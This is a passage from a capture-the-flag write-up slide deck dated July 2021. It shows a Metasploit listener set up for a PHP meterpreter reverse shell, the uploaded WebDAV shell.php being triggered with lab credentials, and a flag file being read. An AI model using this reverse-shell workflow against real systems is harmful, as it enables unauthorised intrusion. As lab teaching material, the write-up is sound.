

# APPENDIX 1: codes and resources
Continued…
## Start the listener > msfconsole
 use exploit/multi/handler set payload php/meterpreter_reverse_tcp
set lhost 192.168.1.90 set lport 4444
 run
## Execute the payload - In web browser access the payload: 192.168.1.105/webdav/shell.php (If needed, login: ryan pass: linux4u
## Your listening msfconsole will now have a meterpreter prompt ready to send commands and shell meterpreter > pwd
The working directory is /var/www/webdav
 meterpreter > ls ../../../
We found out that the flag was in the root folder as flag.txt
Then we can do a cat
meterpreter > cat ../../../flag.txt
 cat /flag.txt : b1ng0w@5h1sn@m0
OLANREWAJU IGE JULY, 2021